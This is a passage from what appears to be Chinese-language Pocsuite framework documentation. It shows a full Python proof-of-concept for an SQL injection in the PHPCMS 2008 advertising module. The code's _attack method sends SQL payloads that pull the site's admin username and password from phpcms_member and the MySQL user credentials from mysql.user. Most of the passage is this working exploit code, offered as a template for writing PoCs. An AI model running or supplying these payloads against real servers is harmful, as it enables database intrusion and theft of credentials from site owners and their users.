     > "Password": 是result中 AdminInfo 中的字段，其值支持正则表达式，如果需要使用正则表达式来获取页面信息，则需要在表达式字符串前加`<regex>`


<h2 id="pocexample">PoC 代码示例</h2>

<h3 id="pyexample">PoC py代码示例</h3> 

[Python 代码模版请点击这里查看](./template.py)

[phpcms_2008_/ads/include/ads_place.class.php_sql注入漏洞](http://www.sebug.net/vuldb/ssvid-62274) PoC:


```

#!/usr/bin/env python
# coding: utf-8
import re
import urlparse
from pocsuite.net import req
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register


class TestPOC(POCBase):
    vulID = '62274'  # ssvid
    version = '1'
    author = ['Medici.Yan']
    vulDate = '2011-11-21'
    createDate = '2015-09-23'
    updateDate = '2015-09-23'
    references = ['http://www.sebug.net/vuldb/ssvid-62274']
    name = '_62274_phpcms_2008_place_sql_inj_PoC'
    appPowerLink = 'http://www.phpcms.cn'
    appName = 'PHPCMS'
    appVersion = '2008'
    vulType = 'SQL Injection'
    desc = '''
        phpcms 2008 中广告模块，存在参数过滤不严，
        导致了sql注入漏洞，如果对方服务器开启了错误显示，可直接利用，
        如果关闭了错误显示，可以采用基于时间和错误的盲注
    '''
    samples = ['http://10.1.200.28/']

    def _attack(self):
        result = {}
        # 尝试获取 phpcms_member
        payload = "SELECT concat(char(45,45),username,char(45,45,45),password,char(45,45)) from phpcms_member limit 1"
        resp = self.do_sqlinji(payload)
        if resp:
            match_result = re.search(r'--(.+)---(.+)--', resp, re.I | re.M)
            if match_result:
                result['AdminInfo'] = {}
                result['AdminInfo']['Username'] = match_result.group(1)
                result['AdminInfo']['Password'] = match_result.group(2)
        # 尝试获取 Mysql 用户名和密码
        payload1 = "SELECT concat(char(45,45),user,char(45,45,45),password,char(45,45)) from mysql.user limit 1"
        resp = self.do_sqlinji(payload1)
        if resp:
            match_result = re.search(r'--(.+)---(.+)--', resp, re.I | re.M)
            if match_result:
                result['DBInfo'] = {}
                result['DBInfo']['Username'] = match_result.group(1)
                result['DBInfo']['Password'] = match_result.group(2)

        return self.parse_attack(result)
```